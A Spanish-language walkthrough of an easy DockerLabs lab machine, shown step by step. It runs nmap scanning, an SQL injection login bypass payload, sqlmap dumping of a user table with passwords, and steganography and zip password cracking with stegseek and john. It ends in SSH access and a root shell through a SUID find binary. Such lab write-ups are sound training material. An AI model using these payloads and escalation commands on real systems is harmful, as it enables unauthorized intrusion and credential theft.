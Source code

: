 Hoy maquina de [dockerlabs](https://dockerlabs.es)
![dockerlabs](./imagenes/mirame.png)
Autor:yo(maciiii___)
Dificultad: Fácil
# INTRUSION

Comenzamos haciendo un escaneo de nmap

```css
nmap -p- --open --min-rate 5000 -sS -vvv -n -Pn 172.17.0.3
```

```ruby
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-10 17:09 -03
Initiating ARP Ping Scan at 17:09
Scanning 172.17.0.3 [1 port]
Completed ARP Ping Scan at 17:09, 0.06s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 17:09
Scanning 172.17.0.3 [65535 ports]
Discovered open port 80/tcp on 172.17.0.3
Discovered open port 22/tcp on 172.17.0.3
Completed SYN Stealth Scan at 17:09, 1.68s elapsed (65535 total ports)
Nmap scan report for 172.17.0.3
Host is up, received arp-response (0.000015s latency).
Scanned at 2024-08-10 17:09:34 -03 for 2s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64
MAC Address: 02:42:AC:11:00:03 (Unknown)

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 1.90 seconds
           Raw packets sent: 65536 (2.884MB) | Rcvd: 65536 (2.621MB)

```

No se ve nada interesante mas que el puerto 22 pero por ahora no nos interesa.

Continuamos por el navegador y vemos esto:

#### PUERTO 80:

![puerto80](./imagenes/puerto80.png)

Al perecer es un panel de login, por lo que probaremos con las credenciales típicas:
`admin:admin`

`root:root`

pero como ninguna funciona podemos pasar a probar poner una comilla `'` si nos da el error significa que estamos frente a SQLi. Al probar nos da el siguiente error:

![error](./imagenes/error.png)

Sabiendo esto podriamos intentar nuevamente con el usuario admin pero poniendo `admin'or 1=1-- -` como usuario y de contraseña lo que sea. Una vez hecho veremos un panel que nos deja consultar el clima, pero al no tener nada interesante tendremos que usar sqlmap.

Para sqlmap pondremos en el terminal:

```css
sqlmap -u "http://172.17.0.3/index.php" --forms --batch --dbs
```

lo que nos dice que hay dos bases de datos:

```mysql
available databases [2]:
[*] information_schema
[*] users
```

La que nos interesa a nosotros es la `users` por lo que ahora pondremos:

```css
sqlmap -u "http://172.17.0.3/index.php" --forms --batch -D users --tables
```

lo que nos mostrará las tablas de la base de datos `users`. 

```mysql
Database: users
[1 table]
+----------+
| usuarios |
+----------+
```

El comando nos dice que hay una tabla llamada usuarios, por lo que ahora listaremos la tabla con:

```css
sqlmap -u "http://172.17.0.3/index.php" --forms --batch -D users -T usuarios --dump
```

```mysql
Database: users
Table: usuarios
[4 entries]
+----+------------------------+------------+
| id | password               | username   |
+----+------------------------+------------+
| 1  | chocolateadministrador | admin      |
| 2  | lucas                  | lucas      |
| 3  | soyagustin123          | agustin    |
| 4  | directoriotravieso     | directorio |
+----+------------------------+------------+

```

Ya teniendo todos los usuarios, vemos que hay uno medio anormal llamado `directorio:directoriotravieso`, ya que no parece un nombre común y se llama directorio, podriamos entrar desde el navegador a "directorios" y "directoriotravieso".

Luego de entrar a ambos, el único que si existe es "directoriotravieso", y dentro tiene una imagen, la descargamos y hacemos Esteganografía. Para hacerlo, podemos usar la herramienta `steghide`, con el comando:

```css
steghide extract -sf miramebien.jpg
```

 Al ejecutar el comando, nos pide un salvoconducto, pero como no lo tenemos le damos al enter. Como no podemos extraer nada, podemos tratar de hacer un ataque de diccionario al archivo con la herramienta `stegseek` usando el comando:

```css
stegseek extract -sf miramebien.jpg -wl /usr/share/wordlists/rockyou.txt
```

```css
StegSeek 0.6 - https://github.com/RickdeJager/StegSeek

[i] Found passphrase: "chocolate"
[i] Original filename: "ocultito.zip".
[i] Extracting to "miramebien.jpg.out".
```

Vemos que dentro hay un .zip llamado "ocultito.zip" y que el salvoconducto es "chocolate", por lo que volvemos a ejecutar `steghide` y esta vez ponemos el salvoconducto "chocolate".

Esto nos deja un .zip el cual si intentamos extraer tiene contraseña, por lo que tendremos que utiliza `zip2john`para extraer el hash y luego crackearlo usando la herramienta `john the ripper`. Ejecutamos lo siguiente:

```css
zip2john ocultito.zip > hash.txt
```

Y luego

```css
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

con esto ya tenemos la contraseña del zip:

```ABAP
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
stupid1          (ocultito.zip/secret.txt)     
1g 0:00:00:00 DONE (2024-08-10 17:33) 100.0g/s 409600p/s 409600c/s 409600C/s 123456..oooooo
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

Vemos que la contraseña del zip es "stupid1", por lo que ahora si podemos extraerlo usando el comando `unzip ocultito.zip` y poniendo la contraseña.

Esto nos deja un .txt llamado "secret.txt" que al parecer tiene la contraseña del ssh, lo probamos con `ssh carlos@172.17.0.3` y listo, estamos dentro.

# ESCALADA DE PRIVILEGIOS

Ahora somos el usuario `carlos` por lo que nos fijamos si podemos ejecutar algo con sudo usando `sudo -l` y nada. Por lo que veremos si hay algún binario que podamos aprovechar en el SUID, para verlo ejecutamos:

```ABAP
find / -perm -4000 2>/dev/null
```

```css
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/lib/mysql/plugin/auth_pam_tool_dir/auth_pam_tool
/usr/bin/chsh
/usr/bin/find
/usr/bin/umount
/usr/bin/gpasswd
/usr/bin/chfn
/usr/bin/su
/usr/bin/passwd
/usr/bin/mount
/usr/bin/newgrp
/usr/bin/sudo
```

Como vemos, esta el binario `find`, si buscamos en [GTFObins](https://gtfobins.github.io) vemos que podemos aprovecharnos de el para escalar usando el comando:

```ruby
/usr/bin/find . -exec /bin/sh -p \; -quit
```

Al usarlo escalamos a root.

![root](./imagenes/root.png)







Por si te interesa:

[INSTAGRAM](https://instagram.com/macim0_)

